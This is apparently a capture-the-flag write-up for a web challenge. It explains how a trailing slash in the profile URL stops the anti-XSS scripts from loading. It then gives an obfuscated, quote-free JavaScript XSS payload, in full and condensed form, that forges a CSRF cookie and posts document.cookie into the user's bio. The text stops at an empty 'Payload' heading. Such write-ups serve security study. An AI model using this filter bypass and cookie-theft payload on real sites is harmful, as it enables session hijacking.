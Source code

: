 ## Bypassing antixss.js and snow.js

### Make them not load

If we set our website to `https://profile-page-revenge.web.osugaming.lol/profile/` instead of `https://profile-page-revenge.web.osugaming.lol/profile` (extra `/` at the end), these anti-xss script tags:
```html
<script src='snow.js' nonce='...'></script>
<script src='antixss.js' nonce='...'></script>
...
<script src='bio.js'></script>
```
will request from `/profile/snow.js`, `/profile/antixss.js`, etc... which do not exist. Hence all the blocking will not work.

afaik there are other methods might write them

## XSS

We basically need to `fetch('/api/update')` with `document.cookie`

<details><summary>Note that we cannot fetch our webhook as we cannot do cross-site requests</summary></details>

without using quotes. There are many ways to get strings, but one of them is using regex (e.g. `/balls/.source` = `"balls"`). However, we can't use `/` in the regex, so we can use `String.fromCharCode(47)`

{% ccb lang:js caption:'xss script' gutter1:1-9 %}
headers=Object();
headers[/csrf/.source] = 2;
headers[/Content-Type/.source]=/application/.source+String.fromCharCode(47)+/x-www-form-urlencoded/.source;
opts=Object();
opts[/method/.source]=/POST/.source;
opts[/body/.source]=/bio=/.source+document.cookie;
opts[/headers/.source]=headers;
document.cookie=/csrf=2;Path=/.source+String.fromCharCode(47);
fetch(String.fromCharCode(47)+/api/.source+String.fromCharCode(47)+/update/.source,opts)
{% endccb %}

which when condensed gives:

{% ccb lang:js caption:'xss script' wrapped:true %}
headers=Object();headers[/csrf/.source]=2;headers[/Content-Type/.source]=/application/.source+String.fromCharCode(47)+/x-www-form-urlencoded/.source;opts=Object();opts[/method/.source]=/POST/.source;opts[/body/.source]=/bio=/.source+document.cookie;opts[/headers/.source]=headers;document.cookie=/csrf=2;Path=/.source+String.fromCharCode(47);fetch(String.fromCharCode(47)+/api/.source+String.fromCharCode(47)+/update/.source,opts)
{% endccb %}

## Payload
